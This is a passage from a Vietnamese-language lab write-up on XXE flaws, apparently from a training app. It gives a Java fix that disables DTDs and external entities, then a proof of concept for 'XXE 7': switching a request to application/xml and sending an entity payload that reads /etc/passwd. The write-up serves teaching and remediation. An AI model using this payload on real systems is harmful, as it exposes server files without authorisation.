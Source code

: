 - Gửi request đi

![image.png]((A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%201.png)

## Cách khắc phục

- Kiểm tra lại input XML được gửi đến từ phía client để xem có bị tấn công XXE hay không
- Tắt tính năng DTD của XML

```java
protected Comment parseXml(String xml) throws XMLStreamException, JAXBException {
    var jc = JAXBContext.newInstance(Comment.class);
    var xif = XMLInputFactory.newInstance();

    xif.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
    xif.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // compliant
    xif.setProperty(XMLInputFactory.SUPPORT_DTD, false); // Disable DTDs entirely
    xif.setProperty("javax.xml.stream.isSupportingExternalEntities", false); // Prevent external entities

    var xsr = xif.createXMLStreamReader(new StringReader(xml));

    var unmarshaller = jc.createUnmarshaller();
    return (Comment) unmarshaller.unmarshal(xsr);
  }
```

# XXE 7

## Nguyên nhân lỗi

- Lập trình viên sử dụng cả 2 Content-Type là `application/json` và `application/xml` cho dữ liệu được gửi đến từ phía Client. Tuy nhiên khi xử lý Content-Type là **application/xml**, thì lập trình viên lại mắc phải lỗi như **XXE 1**

## POC

- Bắt một request khi gửi Review. Lúc này Content-Type là `application/json`

![image.png]((A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%202.png)

- Đổi Content-Type thành `application/xml` , và Body thành xml như dưới

```xml
<?xml version="1.0"?>
<!DOCTYPE text [
  <!ENTITY payload SYSTEM "file:///etc/passwd">
]>
<comment>  
	<text>&payload;</text>
</comment>
```
